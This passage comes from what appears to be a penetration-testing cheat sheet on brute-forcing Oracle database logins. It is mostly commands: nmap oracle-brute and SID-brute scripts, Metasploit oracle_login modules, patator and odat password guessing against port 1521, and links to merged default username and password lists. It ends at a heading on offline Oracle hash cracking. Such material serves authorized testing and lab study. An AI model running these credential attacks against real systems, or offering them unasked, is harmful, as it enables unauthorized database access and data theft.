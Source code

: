 ```bash
oscan: /usr/share/oscanner/accounts.default (169 lines)
msf > use admin/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv (598 lines)
msf > use scanner/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt (568 lines)
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL 10.10.x.x
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 10.10.x.x
nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 10.10.x.x
nmap -sT -p 1521 -d -Pn --script-trace --script oracle-brute --script-args "oracle-brute.sid=orcl, brute.credfile=/usr/share/nmap/nselib/data/oracle-default-accounts.lst" 10.10.x.x # /usr/share/nmap/nselib/data/oracle-default-accounts.lst (687 lines)
```

I have mixed all of them and removed duplicates:

[users-oracle.txt](https://secybr.com/assets/file/users-oracle.txt)

[pass-oracle.txt](https://secybr.com/assets/file/pass-oracle.txt)

<h3>Brute Force</h3>

Now, that you know a valid SID and valid credentials. To connect to the database you need the tool: *sqlplus* 

```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

In order to use `oracle_login` with `patator` you need to install:

```bash
pip3 install cx_Oracle --upgrade
```

Offline OracleSQL hash bruteforce (versions `11.1.0.6`, `11.1.0.7`, `11.2.0.1`, `11.2.0.2`, and `11.2.0.3`)
